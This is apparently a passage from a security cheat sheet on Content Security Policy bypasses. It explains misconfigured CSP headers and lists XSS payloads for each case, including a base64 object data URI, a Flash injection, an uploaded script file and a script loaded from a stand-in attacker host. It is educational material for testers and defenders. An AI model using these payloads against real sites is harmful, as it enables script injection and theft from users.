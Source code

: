 ```http
Content-Security-Policy: script-src 'self';
```

This is a misconfigured CSP policy due to missing `default-src`, allowing use `object-src`. Possible payloads:

```html
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>

">'><object type="application/x-shockwave-flash" data='https: //ajax.googleapis.com/ajax/libs/yui/2.8.0 r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e) {alert(1337)}//'>

<param name="AllowScriptAccess" value="always"></object>
```

## Uploading files

```http
Content-Security-Policy: script-src 'self'; object-src 'none';
```

If the application allows users to upload any type of file to the host you can upload a malicious script and call it within a tag. Possible payload:

```html
"/>'><script src="/uploads/picture.png.js"></script>
```

## Weak nonce generation

If `nonce` value is generated by a weak generator or its value can be guessed at, you can bypass a policy by generating the correct `nonce`.

References:
- [Writeup: Bug Bounty Stories #1: Tale of CSP bypass in an electron app!](https://securitygoat.medium.com/bug-bounty-stories-1-tale-of-csp-bypass-in-an-electron-app-f669f6ecefc9)

## Wildcard in script-src

```http
Content-Security-Policy: script-src 'self' https://facebook.com https://google.com https: data *; child-src 'none';
```

This is a misconfigured CSP policy due to usage of a wildcard in `script-src`. Possible payloads:

```html
"/>'><script src=https://attacker-website.com/evil.js></script>
"/>'><script src=data:text/javascript,alert(1337)></script>
```

# References

- [Content-Security-Policy (CSP) Bypass Techniques](https://medium.com/@bhaveshthakur2015/content-security-policy-csp-bypass-techniques-e3fa475bfe5d)
- [Deteact: Content Security Policy Bypass](https://blog.deteact.com/csp-bypass/)
- [ZN2018: CSP by Ivan Chalykin](https://github.com/0xn3va/cheat-sheets/blob/master/Web%20Application/Content%20Security%20Policy/materials/zn2018-csp-bypass.pdf)
- [Write up: CSP bypass by base tag injection](https://ctftime.org/writeup/11452)
